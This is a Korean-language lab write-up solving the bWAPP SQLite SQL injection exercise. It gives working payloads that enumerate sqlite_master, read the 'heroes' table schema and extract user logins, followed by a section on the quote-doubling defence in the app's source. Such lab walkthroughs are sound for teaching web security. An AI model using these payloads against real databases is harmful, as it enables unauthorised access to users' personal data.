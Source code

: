 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - (SQLite)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Injection - Stored

공격자가 서버(게시판)에 태그/스크립트를 저장시켜, 클라이언트가 게시판을 읽을 경우 태그/스크립트가 실행되는 방식.

이로 인해 쿠키 정보 탈취, 악성 코드 유입, 랜섬웨어 등의 피해로 이어질 수 있음.

<br>

<br>

## Object

개인정보를 탈취해보자

![image-20220316230246276](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230246276.png)

- Stored(Blog)와 똑같음

![image-20220316230425645](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230425645.png)

- 작은 따옴표 하나 넣어봤더니 아무것도 안뜸

![image-20220316230452499](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230452499.png)

- 두개 넣었더니 하나 뜸

![image-20220316230524693](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230524693.png)

- 세개 넣으니 안뜸
- 즉, SQL 구문에 의해 ENTRY 구간이 작은 따옴표 하나로 열려있음을 알 수 있음
- 다시 유추해보면

`insert into tbl_name('#', 'Date', 'Entry', 'Owner')`

- 다음과 같이 형성 되어있을거라 판단
- 이제 저 Entry에 SQLite문을 삽입해보자.

`test', (select tbl_name from sqlite_master limit 0,1))--`

- test로 엔트리에 입력해주고 작은따옴표 닫아준 후 콤마를 찍어줘서 엔트리 조건을 충족시켜준 후에
- 바로 괄호를 열고 우리가 원하는 select 문을 삽입해준다.
- 그러고 괄호를 닫아주고 insert into tbl_name의 괄호도 충족시키기위해 하나 더 닫아주고
- 뒤에는 날려버릴거기에 주석으로 처리해준다

`insert into tbl_name('#', 'Date', 'test', (select tbl_name from sqlite_master limit 0,1))--', 'Owner')`

- 최종적으로는 이렇게 나올것이다.

<br>

### 테이블 조회

![image-20220316231214009](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316231214009.png)

`a', (select tbl_name from sqlite_master limit 6,1))--`

- 이런식으로 limit를 활용해서 조회해보자
  -  limit n,m ->  n번째의 m개만 출력이라는 뜻

<br>

### 컬럼 조회

![image-20220316231341229](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316231341229.png)

`a', (select sql from sqlite_master where tbl_name='heroes' limit 0,1))--`

<br>

### 결과 

![image-20220316231448404](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316231448404.png)

`a', (select login from heroes limit 0,1))--`

- 성공적으로 개인정보 탈취

<br>

<br>

## 대응방안

### Linux

![image-20220318001547842](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318001547842.png)

- vi 편집기로 sqli_12.php 소스코드 열어준다.
- Level 1, 2 = Medium, High 에서 sqli_check_4 함수 사용

<br>

### functions_external.php

![image-20220318001942380](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318001942380.png)

- 홀로있는 작은 따옴표를 두개의 작은 따옴표로 대체해준다. 
- 작은 따옴표를 열어줌과 동시에 닫아줌으로써 코드가 삽입되더라도 실행되지 못하게 Injection에 대해 방어하고 있다.

